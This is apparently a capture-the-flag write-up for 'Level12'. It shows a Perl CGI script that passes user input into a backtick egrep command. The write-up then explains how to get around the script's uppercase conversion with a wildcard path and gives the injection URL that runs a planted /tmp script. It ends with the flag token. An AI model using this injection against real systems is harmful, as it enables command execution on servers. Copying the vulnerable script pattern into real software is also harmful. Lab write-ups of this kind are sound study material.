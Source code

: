 ## Level12

We found a perl script:

```
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
```

Its a script runing on localhost on port 4646 that takes 2 args but we will focus on the first one because it got a potentiel of command injection in this line :

```@output = `egrep "^$xx" /tmp/xd 2>&1`;```


But first we need to deal with the 2 regex lines:

```
   $xx =~ tr/a-z/A-Z/;
   $xx =~ s/\s.*//;
```
  
 The first one change the alphabets to uppercase
 The second take string after the  last whitespace
 So we can't inject getflag directly we gonna put the command in a file
 So first we need to create a file in tmp we can call it FILE
 cat /tmp/FILE
 
 ```
    #!/bin/bash
    
    getflag > /tmp/token
  ```
 
 `chmod 777 /tmp/file` so another user can access it
 we still have one problem its that our output will become like this \`/TMP/FILE/\` and its not a valid path so we will change it to \`/*/FILE/\`
 we go to browser and go to:
 
 ```
 http://192.168.43.125:4646/?x="`/*/FILE`"
 ```
 
 comeback to terminal and cat /tmp/token :
 
 ```
 Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
 ```
 
